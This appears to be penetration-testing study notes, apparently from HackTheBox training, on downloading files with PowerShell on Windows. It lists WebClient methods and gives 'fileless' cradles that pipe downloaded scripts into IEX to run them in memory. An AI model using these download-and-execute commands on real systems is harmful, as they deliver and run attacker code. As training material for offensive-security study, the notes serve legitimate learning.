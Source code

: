 | Method              | Description                                                                             |
| ------------------- | --------------------------------------------------------------------------------------- |
| OpenRead            | Returns the data from a resource as a Stream                                            |
| OpenReadAsync       | Returns the data from a resource w/o blocking the calling thread                        |
| DownloadData        | Downloads data from a recourse and returns a Byte array                                 |
| DownloadDataAsync   | Downloads data from a recourse and returns a Byte array w/o blocking the calling thread |
| DownloadFile        | Downloads data from a resource to a local file                                          |
| DownloadFileAsync   | Downloads data from a resource to a local file w/o blocking the calling thread          |
| DownloadString      | Downloads a String from a resource and returns a String                                 |
| DownloadStringAsync | Downloads a String from a resource and returns a String w/o blocking the calling thread |

### DownloadFile Method
```powershell
(New-Object Net.WebClient).DownloadFile('[Target_File_URL]','[Output_File]')

(New-Object Net.WebClient).DownloadFileAsync('[Target_File_URL]','[Output_File]')
```

### DownloadString - Fileless Method
```powershell
IEX (New-Object Net.WebClient).DownloadString('[Target_File_URL]')
# Can also pipe
(New-Object Net.WebClient).DownloadString('[Target_File_URL]') | IEX
```

### Invoke-WebRequest
- Slower at downloading files.  Can use aliases `iwr`,`curl`, and `wget` instead of the full name

```powershell
Invoke-WebRequest -uri [Target_File_URL] -Outfile [Output_File]
```

[more download cradles](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)


### PowerShell Errors

- If IE's first-launch config hasn't been completed, it'll prevent a download and error out:
```powershell
# Error
PS C:\htb> Invoke-WebRequest [Target_File_URL] | IEX

Invoke-WebRequest : The response content cannont be parsed because the Internet Explorer engine is not available, or Internet Explorer''s first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

# Fix
PS C:\htb> Invoke-WebRequest [Target_File_URL] -UseBasicParsing | IEX
```
